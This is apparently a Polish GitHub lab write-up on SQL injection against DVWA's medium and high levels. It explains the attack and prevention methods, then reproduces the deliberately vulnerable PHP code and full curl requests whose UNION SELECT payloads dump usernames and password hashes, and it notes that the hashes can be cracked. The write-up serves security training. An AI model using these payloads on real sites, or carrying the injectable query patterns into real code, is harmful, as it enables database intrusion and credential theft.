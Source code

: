 # SQLi - SQL injection
## Opis techniki
<blockquote> Atak SQL injection polega na wstawieniu lub "wstrzyknięciu" zapytania SQL za pośrednictwem danych wejściowych od klienta do aplikacji. Udany exploit SQL injection może odczytywać poufne dane z bazy danych, modyfikować dane bazy danych (wstawiać/aktualizować/usuwać), wykonywać operacje administracyjne na bazie danych (takie jak zamykanie DBMS), odzyskiwać zawartość danego pliku obecnego w systemie plików DBMS (load_file), a w niektórych przypadkach wydawać polecenia systemowi operacyjnemu.

Ataki typu SQL injection są rodzajem ataku wstrzykiwania, w którym polecenia SQL są wstrzykiwane do danych wejściowych w celu wykonania predefiniowanych poleceń SQL.

Atak ten może być również nazywany "SQLi".

 Popularne sposoby zapobiegania SQLi:
  
* Korzystanie z spreparowanych instrukcji (Prepared Statements)
* Korzystanie z prawidłowo skonstruowanych procedur przechowywanych (Stored Procedures)
* Walidacja danych wejściowych z użyciem białej listy dozwolonych wyrażeń
* Filtrowanie i stosowanie znaków ucieczki w ciągach wprowadzanych przez użytkownika 
</blockquote>

## DVWA labs

- [DVWA SQLi #1 - Medium](#dvwa-sqli-1---medium)

- [DVWA SQLi #2 - High](#dvwa-sqli-2---high)

Powtórzenie podanych przykładów wymaga zmiany adresu IP oraz tokenu sesji.

<br/>

## DVWA SQLi #1 - Medium
Cel: uzyskanie wszystkich nazw użytkowników i haseł z bazy danych.

Poziom średni wykorzystuje formę ochrony przed wstrzyknięciem SQL, z użyciem funkcji "mysql_real_escape_string()".

#### Kod źródłowy `PHP` 

```php

<?php

if( isset( $_POST[ 'Submit' ] ) ) {
    // Get input
    $id = $_POST[ 'id' ];

    $id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id);

    $query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query) or die( '<pre>' . mysqli_error($GLOBALS["___mysqli_ston"]) . '</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Display values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

}

// This is used later on in the index.php page
// Setting it here so we can close the database connection in here like in the rest of the source scripts
$query  = "SELECT COUNT(*) FROM users;";
$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
$number_of_rows = mysqli_fetch_row( $result )[0];

mysqli_close($GLOBALS["___mysqli_ston"]);
```

#### Komenda `curl` 

```bash
curl -i -s -k -X $'POST' \
    -H $'Host: 10.10.97.38' -H $'Content-Length: 65' -H $'Cache-Control: max-age=0' -H $'Upgrade-Insecure-Requests: 1' -H $'Origin: http://10.10.97.38' -H $'Content-Type: application/x-www-form-urlencoded' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' -H $'Referer: http://10.10.97.38/vulnerabilities/sqli/' -H $'Accept-Language: en-US,en;q=0.9' -H $'Connection: close' \
    -b $'PHPSESSID=qu2dn55od2kqge7naeher9k8r6; security=medium' \
    --data-binary $'id=1 or 1=1 UNION SELECT user, password FROM users#&Submit=Submit' \
    $'http://10.10.97.38/vulnerabilities/sqli/' -o output_SQLi_medium.txt
```

#### Efekt działania skryptu:
![image](https://github.com/Jswierczynsk/sandbox/assets/133172137/42f23478-e605-4241-8c32-896ebf9fd264)

Otrzymane hashe można przyporządkować do konkretnych haseł z użyciem bruteforce bądź tablic tęczowych.
<br/>

<br/>
<br/>

## DVWA SQLi #2 - High

Cel: uzyskanie wszystkich nazw użytkowników i haseł z bazy danych.

Wartości wejściowe są przesyłane do podatnego zapytania za pośrednictwem zmiennych sesji przy użyciu osobnej strony.

#### Kod źródłowy `PHP` 

```php
<?php

if( isset( $_SESSION [ 'id' ] ) ) {
    // Get input
    $id = $_SESSION[ 'id' ];

    // Check database
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query ) or die( '<pre>Something went wrong.</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Get values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);        
}

?>
```

#### Komenda `curl` 

```bash
curl -i -s -k -X $'POST' \
    -H $'Host: 10.10.97.38' -H $'Content-Length: 19' -H $'Cache-Control: max-age=0' -H $'Upgrade-Insecure-Requests: 1' -H $'Origin: http://10.10.97.38' -H $'Content-Type: application/x-www-form-urlencoded' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' -H $'Referer: http://10.10.97.38/vulnerabilities/sqli/session-input.php' -H $'Accept-Language: en-US,en;q=0.9' -H $'Connection: close' \
    -b $'PHPSESSID=qu2dn55od2kqge7naeher9k8r6; security=high' \
    --data-binary $'id=1\' UNION SELECT user, password FROM users#&Submit=Submit' \
    $'http://10.10.97.38/vulnerabilities/sqli/session-input.php' -o output_SQLi_high.txt
```

#### Efekt działania skryptu:
![image](https://github.com/Jswierczynsk/sandbox/assets/133172137/fbbebc42-f1ef-43c5-885f-3330dc2bc6a6)

Otrzymane hashe można przyporządkować do konkretnych haseł z użyciem bruteforce bądź tablic tęczowych.

<br/>
